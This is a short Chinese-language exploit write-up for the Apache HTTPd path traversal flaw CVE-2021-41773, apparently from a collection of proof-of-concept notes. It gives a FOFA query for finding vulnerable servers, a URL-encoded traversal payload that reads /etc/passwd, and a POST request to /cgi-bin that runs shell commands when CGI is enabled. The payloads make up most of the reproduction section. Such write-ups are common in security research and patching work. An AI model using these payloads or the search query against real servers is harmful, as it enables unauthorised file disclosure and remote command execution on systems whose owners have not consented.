 # Apache HTTPd 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## FOFA

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本

![image-20220525155347737](./images/202205251554093.png)

验证POC

```
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220525155515446](./images/202205251555506.png)

开启CGI的情况下可RCE

```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```